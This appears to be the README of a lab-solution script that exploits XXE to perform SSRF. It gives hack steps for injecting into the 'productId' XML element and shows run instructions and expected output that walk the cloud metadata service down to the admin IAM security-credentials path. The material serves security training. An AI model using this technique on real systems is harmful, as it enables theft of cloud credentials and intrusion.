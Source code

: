 # Hack Steps

1. Inject payload into 'productId' XML element to retrieve the path via SSRF
2. Extract the path from the response
3. Repeat the process with the new extracted path until you fetch the admin information

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python exploiting_xxe_to_perform_ssrf_attacks.py
```

# Expected Output

```
⟪#⟫ Injection point: productId
⦗1⦘ Injecting payload to retrieve the path number 1.. OK => /latest/
⦗2⦘ Injecting payload to retrieve the path number 2.. OK => /latest/meta-data/
⦗3⦘ Injecting payload to retrieve the path number 3.. OK => /latest/meta-data/iam/
⦗4⦘ Injecting payload to retrieve the path number 4.. OK => /latest/meta-data/iam/security-credentials/
⦗5⦘ Injecting payload to retrieve the path number 5.. OK => /latest/meta-data/iam/security-credentials/admin/
🗹 Check your browser, it should be marked now as solved
```
